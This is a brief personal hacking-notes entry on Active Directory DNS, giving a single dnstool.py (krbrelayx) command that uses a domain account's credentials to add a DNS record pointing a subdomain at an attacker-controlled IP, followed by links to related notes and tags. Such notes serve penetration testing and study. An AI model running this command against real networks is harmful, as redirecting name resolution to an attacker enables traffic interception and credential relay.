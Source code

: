 # active directory  DNS adding DNS records
https://github.com/dirkjanm/krbrelayx
dnstool.py
```bash
python3 dnstool.py -u 'domain.local\username' -p password123 -a add -r subdomain.domain.local -d $ATTACKER_IP $IP
```

` zet/20221003151128/README.md `

# Related

- [20221007220451](/zet/20221007220451/README.md) hacking notes node

- [20221003151129](/zet/20221003151129/README.md) active directory  DNS
- ~/kb/hacking/windows/windows-active-directory-and-privilege-information.md

Tags:

    #hacking #windows #windows 
